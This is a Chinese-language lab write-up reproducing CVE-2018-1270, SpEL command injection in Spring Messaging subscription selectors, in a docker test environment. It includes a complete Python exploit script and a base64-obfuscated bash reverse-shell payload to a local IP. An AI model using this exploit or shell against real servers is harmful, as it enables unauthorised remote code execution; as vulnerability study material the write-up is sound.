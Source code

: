 # Spring Messaging 远程命令执行漏洞 CVE-2018-1270

## 漏洞描述

spring messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，

在spring messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用`StandardEvaluationContext`解析，造成命令执行漏洞。

参考链接：

- https://pivotal.io/security/cve-2018-1270
- https://xz.aliyun.com/t/2252
- https://cert.360.cn/warning/detail?id=3efa573a1116c8e6eed3b47f78723f12
- https://github.com/CaledoniaProject/CVE-2018-1270

## 环境搭建

执行如下命令启动漏洞环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到一个Web页面。

## 漏洞复现

网上大部分文章都说spring messaging是基于websocket通信，其实不然。spring messaging是基于sockjs（可以理解为一个通信协议），而sockjs适配多种浏览器：现代浏览器中使用websocket通信，老式浏览器中使用ajax通信。

连接后端服务器的流程，可以理解为：

1. 用[STOMP协议](http://jmesnil.net/stomp-websocket/doc/)将数据组合成一个文本流
2. 用[sockjs协议](https://github.com/sockjs/sockjs-client)发送文本流，sockjs会选择一个合适的通道：websocket或xhr(http)，与后端通信

所以我们可以使用http来复现漏洞，称之为“降维打击”。

我编写了一个简单的POC脚本[exploit.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2018-1270/exploit.py)（需要用python3.6执行），因为该漏洞是订阅的时候插入SpEL表达式，而对方向这个订阅发送消息时才会触发，所以我们需要指定的信息有：

1. 基础地址，在vulhub中为`http://your-ip:8080/gs-guide-websocket`
2. 待执行的SpEL表达式，如`T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')`
3. 某一个订阅的地址，如vulhub中为：`/topic/greetings`
4. 如何触发这个订阅，即如何让后端向这个订阅发送消息。在vulhub中，我们向`/app/hello`发送一个包含name的json，即可触发这个事件。当然在实战中就不同了，所以这个poc并不具有通用性。

根据你自己的需求修改POC。如果是vulhub环境，你只需修改1中的url即可。

修改2中的命令为`touch /tmp/awesome_poc`，执行：

![image-20220301151332400](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011513442.png)

命令执行成功，文件`awesome_poc`被成功创建：

![image-20220301151446972](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011514030.png)

尝试反弹shell，构造命令：

```
T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}'
```

监听9999端口，成功接收反弹shell：

![image-20220301151607291](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011516380.png)

## 漏洞POC

```python
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)
    
    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
        
        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)
```

